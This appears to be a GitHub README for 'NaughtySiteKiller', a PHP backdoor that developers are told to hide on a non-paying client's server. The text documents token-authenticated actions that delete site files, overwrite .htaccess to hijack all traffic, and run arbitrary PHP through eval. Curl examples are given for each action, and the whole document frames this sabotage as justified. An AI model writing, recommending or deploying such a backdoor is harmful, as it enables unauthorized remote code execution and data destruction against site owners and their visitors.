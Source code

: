 ## Is Your Client a Naughty Client?

### Naughty Killer Class

Ah, the joy of building a website for a "naughty" client who refuses to pay after getting full access to their cPanel. Don't fret! Instead of chasing them down, just drop the **NaughtySiteKiller** class on their server as a failsafe. This class lets you send HTTP requests to perform some rather *justifiable* actions on their website—whether it's deleting files, creating fake templates, or obstructing their site's content. It's the digital equivalent of "you won't pay? Fine, enjoy your broken website.

#### Key Features:
1. **Authentication**: Validates requests using Bearer or Basic token schemes.
2. **Token Generation**: Generate tokens from a password for authentication purposes.
3. **Action Handling**: Executes actions like `kill` (deletes files and self-destructs the script) and `template` (creates template files and updates `.htaccess`).
4. **Security**: Ensures that requests are authenticated by comparing the hashed token value.

---

### Usage Examples


Simply place the `NaughtySiteKiller` class on their server as an insurance measure. It supports token-based authentication and various actions like deleting files, creating templates, and updating `.htaccess` securely.

#### 1. Generating a Hashed Token

To authenticate requests, generate a token by hashing a password using the `sha256` algorithm. This token will be used for all incoming HTTP requests.

**Example**:
```php
$password = 'super_secret_password';
$token = $webKill->generateToken($password);  // Returns: "Bearer <hashed-password>"
```

Alternatively, you can directly hash the password:
```php
$password = 'super_secret_password';
echo hash('sha256', $password);  // Outputs the hashed token
```

#### 2. Handling the Incoming Request

Place the `NaughtySiteKiller` handler on the public directory of the website where it can be accessed through HTTP requests. This handler will process incoming requests, validate the authorization token, check the requested action (`kill`, `execute`, `template`, `self-key`), and execute the appropriate method.

**Example Usage**:
```php
// path/to/public_html/psk.php 
<?php
use \NaughtySiteKiller;

$psk = new NaughtySiteKiller('<your-secure-bearer-hashed-token-here>');
try {
    $psk->run();  // Run the script based on incoming HTTP request
} catch (Exception $e) {
    $psk->response("Unknown error occurred: {$e->getMessage()}", 500);  // Handle errors
}
```

> **Note**: Replace `<your-secure-bearer-hashed-token-here>` with the hashed token you generated in the previous step.

--

### Payload Fields

The following fields can be included in the payload when sending a request:

```php
$request = [
    'action'      => 'kill', // Action to perform: 'kill', 'execute', 'template', or 'self-key'.
    'content'     => 'Content for the template, execute (used in both HTML and PHP files when performing kill action, or for template creation).',
    'htmlContents'=> 'Content for the template.html file (used when performing kill action).', // HTML content for the template.
    'phpContents' => 'Content for the template.php file (used when performing kill action).', // PHP content for the template.
    'name'        => 'Filename to use when performing template action.', // Custom filename for the template.
    'htaccess'    => 'Content for the .htaccess file (overwrites existing .htaccess).',
];
```

#### Explanation of Fields:

- **`action`** (string): Specifies which action to perform:
  - `'kill'`: Deletes files including self and creates `index.php` and `index.html` files (HTML and PHP).
  - `'execute'`: Execute a string as PHP code using `eval` function. The instructions should be placed in `contents`.
  - `'template'`: Creates template file `<name>.php` and modifies `.htaccess` to redirect all website request to `<name>.php` if no custom htaccess content is provided.
  - `'self-key'`: self-destructing, delete the handler file only.
  
- **`content`** (string): Content to include in the generated template files. Used for both HTML and PHP files during the `kill` action, or for the `template` action.

- **`htmlContents`** (string): Content to be placed in the `<template-name>.html` file when performing the `kill` action.

- **`phpContents`** (string): Content to be placed in the `<template-name>.php` file when performing the `kill` action.

- **`name`** (string): The name of the template file to use when performing the `template` action. Default is `__template.php` if not specified.

- **`htaccess`** (string): The content for the `.htaccess` file. This will overwrite any existing `.htaccess` file during the `template` action. If not provided it will use default to redirect requests to the `<template-name>.php`.

---

### Payload Requests Examples

Here are examples of how to send payload requests using `curl` for the different actions (`kill`, `template`, and `self-key`), including the Bearer token in the header.

### 1. Kill Action Request (Deletes all files and creates template files)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "kill",
           "phpContents": "<?php echo \"Hello, World!\"; ?>",
           "htmlContents": "<html><body><h1>Hello, World!</h1></body></html>"
        }'
```

### 1. Execute Action (Run custom code on the server—because we trust you)

The Execute Action allows you to send custom PHP code to be executed on the server. It's like a magic wand for your commands.

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "execute",
           "contents": "return \"Hello, Naughty Client!\";"
        }'
```

**Output:**

This will execute the PHP code and you will receive the following response:

```php
{
    "message": "Execution completed",
    "result": "Hello, Naughty Client!"
}
```

#### Explanation:

- `action`: Set to `"kill"` to trigger the kill action.
- `phpContents`: Content for the `template.php` file.
- `htmlContents`: Content for the `template.html` file.

### 2. Template Action Request (Creates template files and updates `.htaccess`)

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "template",
           "content": "<?php echo \"Welcome to the template!\"; ?>",
           "name": "custom_template.php",
           "htaccess": "RewriteEngine On\nRewriteRule ^.*$ custom_template.php [L,QSA]"
        }'
```

#### Explanation:

- `action`: Set to `"template"` to create a template file and update `.htaccess`.
- `content`: Content for the template (PHP code).
- `name`: Custom name for the template file (`custom_template.php`).
- `htaccess`: Custom `.htaccess` content to redirect all requests to the template.

### 3. **Self-Key Action Request (Reserved for future use)**

```bash
curl -X POST http://your-server-url/naughty.php \
     -H "Authorization: Bearer YOUR_BEARER_TOKEN" \
     -H "Content-Type: application/json" \
     -d '{
           "action": "self-key"
        }'
```

#### Explanation:
- `action`: Set to `"self-key"`, delete the handler file only.

---

### Notes:
- **Authorization**: Replace `YOUR_BEARER_TOKEN` with the actual Bearer token you are using for authentication.
- **Server URL**: Replace `http://your-server-url/naughty.php` with the actual URL of your script.
- **Payload**: The payload for each action is sent as JSON in the body of the request using the `-d` flag with `curl`.
